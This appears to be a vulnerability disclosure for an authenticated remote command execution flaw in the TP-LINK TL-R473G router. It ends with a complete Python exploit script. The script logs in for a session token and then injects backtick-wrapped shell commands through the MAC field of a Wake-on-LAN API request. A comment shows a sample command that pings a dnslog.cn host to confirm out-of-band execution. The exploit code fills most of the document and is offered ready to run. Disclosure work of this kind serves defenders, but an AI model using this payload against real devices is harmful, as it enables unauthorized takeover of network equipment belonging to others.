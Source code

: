 # TP-LINK TL-R473G command_execution

**CVE ID**:  

**CNVD ID**: 

**Vender**: TP-LINK

**Vendor Homepage**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**Affect products**: TL-R473G

**Firmware version**: 2.0.1 Build 220529 Rel.65574n(the latest version)

**Hardware Link**: not the latest version firmware https://smb.tp-link.com.cn/service/detail_download_8644.html

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The TP-LINK TL-R473G has remote command execution, and remote attackers can bypass restrictions through carefully constructed packets to achieve remote command execution.

## detail

There is no effective filtering of MAC addresses, just replace the `-` with `:` .

![image-20220621165232656](./img/image-20220621165232656.png)

[verification video](./verification_video.mp4)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```

